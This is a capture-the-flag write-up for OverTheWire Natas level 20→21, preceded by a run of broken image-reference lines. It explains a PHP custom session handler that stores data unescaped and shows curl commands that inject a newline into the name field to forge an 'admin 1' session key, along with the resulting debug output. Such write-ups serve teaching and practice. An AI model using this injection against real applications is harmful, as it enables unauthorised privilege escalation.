








# Natas — Level 20 → 21

**Category:** OverTheWire / Natas  
**Difficulty:** Hard  
**Date:** 2026-08-27

## Goal

Logged in as a regular user already, with a name-change form:

    You are logged in as a regular user. Login as an admin to retrieve credentials for natas21.
    Your name: [___________] [Change name]

## Solution

The source showed this level uses its own hand-rolled session storage instead of PHP's default:

    session_set_save_handler(
        "myopen",
        "myclose",
        "myread",
        "mywrite",
        "mydestroy",
        "mygarbage");
    session_start();

`myread()` loads the session file and rebuilds `$_SESSION` by splitting the file on newlines, then splitting each line on the *first* space into a key and a value:

    $data = file_get_contents($filename);
    $_SESSION = array();
    foreach(explode("\n", $data) as $line) {
        $parts = explode(" ", $line, 2);
        if($parts[0] != "") $_SESSION[$parts[0]] = $parts[1];
    }

`mywrite()` does the reverse — for every `$_SESSION` entry, it writes `"$key $value\n"` straight to the file, with no escaping of the value at all:

    foreach($_SESSION as $key => $value) {
        $data .= "$key $value\n";
    }
    file_put_contents($filename, $data);

And the only thing under user control is the `name` field, assigned directly from the request:

    if(array_key_exists("name", $_REQUEST)) {
        $_SESSION["name"] = $_REQUEST["name"];
        debug("Name set to " . $_REQUEST["name"]);
    }

![Source showing $_SESSION["name"] set directly from user input](images/natas-20-21-namefield.png)

Since the value is written raw with no escaping, a `name` containing its own newline breaks the one-line-per-key format `mywrite()` relies on — it can inject an entirely new fake session key. Grabbed the current session cookie to reuse across requests:

Confirmed the baseline first — a normal name change, one request setting `name=test`:

    curl -u natas20:<password> -b "PHPSESSID=<sid>" -d "name=test" ".../index.php?debug=1"

Then sent a name containing a literal embedded newline followed by `admin 1`:

    curl -u natas20:<password> -b "PHPSESSID=<sid>" \
      --data-urlencode $'name=test\nadmin 1' \
      ".../index.php?debug=1"

Since `mywrite()` just concatenates `"name $value\n"` for the `name` key, and `$value` itself now contains a newline, the file ends up with an extra line that was never meant to exist:

    name test
    admin 1

On the next request, `myread()` parses that file line by line as usual — but now sees two lines instead of one, and happily sets `$_SESSION["admin"] = "1"` from the second:

    curl -u natas20:<password> -b "PHPSESSID=<sid>" ".../index.php?debug=1"

    DEBUG: Read [name test]
    DEBUG: Read [admin 1]
    You are an admin. The credentials for the next level are:
    Username: natas21
    Password: [REDACTED]

## Result

    Username for natas21: natas21
    Password for natas21: [REDACTED]

## Key Takeaway

A custom session format is only as safe as its escaping — storing session data as `"key value\n"` per line works fine until a value can contain its own newline, at which point user input can forge entirely new keys that were never explicitly written by the application. `$_SESSION["name"] = $_REQUEST["name"]` looked harmless on its own, but combined with `mywrite()`'s unescaped serialization it became a way to plant `$_SESSION["admin"] = "1"` without ever touching the actual admin-check logic.
